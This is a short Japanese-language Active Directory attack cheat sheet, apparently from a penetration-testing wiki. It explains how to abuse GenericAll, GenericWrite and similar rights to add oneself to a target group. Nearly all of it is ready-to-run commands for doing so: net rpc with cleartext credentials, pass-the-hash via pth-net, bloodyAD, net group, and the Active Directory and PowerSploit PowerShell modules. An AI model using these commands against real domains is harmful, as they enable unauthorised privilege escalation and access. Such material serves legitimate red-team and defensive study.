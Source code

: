 # グループにメンバーを追加する

ターゲット グループに対して `GenericAll`、`GenericWrite`、`Self`、`AllExtendedRights`、または `Self-Membership` を持つオブジェクトを制御するとき、グループメンバーシップを操作することができる。`Get-NetGroup` を使用してグループの識別名を特定した後、自分自身を そのグループに追加できる。 これは、直接コマンドを使用するか、`Active Directory` や `PowerSploit` のようなモジュールを使用して行うことができる。

## メンバーを追加

### Linux

#### ネットとクリアテキストの認証情報

```
net rpc group addmem "<TargetGroup>" <TargetUser> -U <DOMAIN>/<USERNAME>%<PASSWORD> -S <DC_IP>
```

#### With Pass-the-Hash

```
pth-net rpc group addmem "<TargetGroup>" <TargetUser> -U <DOMAIN>/<USERNAME>%"ffffffffffffffffffffffffffffffff":<NTLM_HASH> -S <DC_IP>
```

#### bloodyAD

```
bloodyAD --host <DC_IP> -d <OMAIN>-u <USERNAME> -p <PASSWORD> add groupMember "<TargetGroup>" <TargetUser>
```

### Windows

#### Command Line

```
net group "<TargetGroup>" <USERNAME> /add /domain
```

#### PowerShell : Active Directory Module

```
Add-ADGroupMember -Identity "<TargetGroup>" -Members <TargetUser>
```

#### PowerShell : PowerSploit Module

```
Add-DomainGroupMember -Identity "<TargetGroup>" -Members <TargetUser>
```

